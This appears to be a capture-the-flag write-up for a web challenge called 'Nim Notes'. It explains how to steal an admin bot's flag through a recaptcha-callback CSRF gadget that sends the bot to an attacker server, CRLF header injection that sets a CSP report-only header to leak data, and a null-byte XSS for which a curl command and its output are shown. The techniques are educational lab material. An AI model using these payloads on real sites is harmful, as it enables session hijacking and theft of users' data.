 # Nim Notes

* Category: Web

## Description

I made this note taking web app in Nim as a part of learning it. If you have some cool notes about Nim please share it with me!

## Overview

You have a simple note taking website, which allows you to use markdown to create some notes. The webiste backend is written in Nim, with a small framework called [jester](https://github.com/dom96/jester). You can share you notes with admin (bot), and your target is to steal the flag in admin's notes.

## Solution

The bot only visits `http://web/?user=xxx`, so you might want to direct the bot to your own website first. Your note content are first parsed by marked then filtered by DOMPurify, so you most probably couldn't have a direct XSS (unless you have a DOMPurify 0day lol).

The trick is to notice that recaptcha v2 are used on the website too, and [its documentation](https://developers.google.com/recaptcha/docs/display) listed some ways to interact with it through HTML markup. Obviously, the most interesting things are `data-callback` and `data-error-callback`, they should be specified to be the name of a global function.

Is there anything interesting things can be used as a callback? Of course, there is! In `/js/app.js`, there's a simple function `logout`:

```javascript
function logout() {
	document.getElementById('logout-form').submit()
}
```

It simply submit the `<form>` with id `logout-form`, but the form in `templates/index.html` are located at the very end of HTML, which is after the notes container. If you inject a `<form>` with `logout-form` at container section, it will submit the injected one rather than the original logout one. So you can just provide your website's url to `action` of that form, and it will direct the bot to your site when callback are called.

```html
<form action="YOUR_SERVER" id="logout-form">
<button type=submit class=g-recaptcha data-sitekey=invalid data-error-callback=logout data-action=submit>peko</button>
</form>
```

After directing the bot to your website, there are one intended solution and one unintended solution (much easier and less interesting) as far as I know.

The intended solution is to use the fact that `setCookie` is vulnerable to CRLF Injection. Since `sign` function simply concat your message and hash together, your payload is directly passed into `setCookie` almost unmodified if you could success at login/register.

You might think it is easy to XSS after CRLF Injection, but in fact, it is not. The injection point are at `Set-Cookie` header, which is after the CSP header. And it is easy to found that you can't really disable CSP even if you could inject headers in modern Chromium. So you still need to find a way to bypass CSP:

```csp
default-src 'self'; script-src 'self' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/; frame-src https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/;
```

The CSP prevents you from using inline `<script>` tag to XSS, but you can trying to load script with current origin. If this CSRF request are `GET`, you can try to construct a Javascript/HTML polyglot and force the browser to cache the response. Then make a `<script>` tag's `src` to point to itself might work. But it is a `POST` in this challenge, so this won't work.

Another option is trying to use the fact HTTP keep-alive are all in a single TCP connection, since Chromium only opens 6 parallel connections at the same time by default, it is possible to make them reuse same connection for HTML and the script. While this is possible in theory, but Chromium will simply disconnect immediately when it sees more content then it is expecting, so it is important to make it align to packet boundary. This is so complicated that I couldn't make it work in this challenge.

> If you want to know more about this, see **PlaidCTF 2021 - Carmen Sandiego** and **Circle City Con CTF 2021 - Sticky Notes**

So it is impossible to XSS this way? I don't know, but you don't really need XSS to exfiltrate the flag. The trick is to abuse the [Content-Security-Policy-Report-Only](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy-Report-Only) header, which allows you to specify another set of CSP rules, but it only reports the violation to a specified url without blocking it. And the reported infomation is encoded as a JSON, one of the field `script-sample` contains `The first 40 characters of the inline script, event handler, or style that caused the violation.` by MDN.

What if you can make it send the flag to your server using `script-sample`? See the `createNote` function in `/js/app.js`:

```javascript
function createNote(note) {
	const el = document.importNode(document.getElementById('note-tmpl').content, true)
	el.querySelector('.note-title').textContent = note.title
	el.querySelector('.note-author').textContent = note.author
	el.querySelector('.note-content').innerHTML = DOMPurify.sanitize(marked.parse(note.content))
	return el
}
```

It is expected that flag will be in admin's `note.content`, if `.note-content` element is a `<script>` tag then it will put the content (flag) to `script-sample` and send it to your server!

So it is clear that we can use CRLF Injection to set your own `Content-Security-Policy-Report-Only`, and the body will be a HTML with designed `#note-tmpl` template. You also need to load `/js/app.js`, `/js/marked.min.js` and `/js/purify.min.js` to make it work too. Once the bot trying to load that HTML, the violation will be triggered when it wants to set `innerHTML` to be the flag.

The exploit is [exp.py](exp.py), you need to set the `public_host` variable to be a publicly reachable url of that flask server. After starting it, create a note with following content and share it with admin (bot):

```html
<form action="http://IP_OF_THIS_SERVER/csrf" id="logout-form">
<button type=submit class=g-recaptcha data-sitekey=invalid data-error-callback=logout data-action=submit>asd</button>
</form>
```

Then the flask server should prints the flag.

## Unintended Solution

You first need to direct the bot to your website first too. But the CSRF part is different here.

The trick is that when your username contains `\0` (null byte), it will cause syntax error in Nim's sqlite library. This happens because it [didn't uses sqlite's prepared statement](https://github.com/nim-lang/Nim/blob/d7370ce26962b3b82e6b9be6562f6e88ba7ff86c/lib/impure/db_sqlite.nim#L214).

And the error message are output **directly** to response by Jester, with no CSP headers.

```bash
> curl 'http://34.81.54.62:8765/login' --data $'username=<script>alert(1)</script>%00&password=peko' -v
*   Trying 34.81.54.62:8765...
* Connected to 34.81.54.62 (34.81.54.62) port 8765 (#0)
> POST /login HTTP/1.1
> Host: 34.81.54.62:8765
> User-Agent: curl/7.81.0
> Accept: */*
> Content-Length: 55
> Content-Type: application/x-www-form-urlencoded
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 502 Bad Gateway
< Server: nginx
< Date: Mon, 28 Feb 2022 03:08:23 GMT
< Content-Type: text/html;charset=utf-8
< Content-Length: 343
< Connection: keep-alive
<
<html xmlns="http://www.w3.org/1999/xhtml"><head><title>Jester route exception</title></head><body><h1>An error has occured in one of your routes.</h1><p><b>Detail: </b>db_sqlite.nim(198)       dbError<br/>
asyncfutures.nim(389)    read<br/>
asyncfutures.nim(389)    read<br/>
* Connection #0 to host 34.81.54.62 left intact
unrecognized token: "'<script>alert(1)</script>"</p></body></html>
```

So you have an easy XSS now, lol.
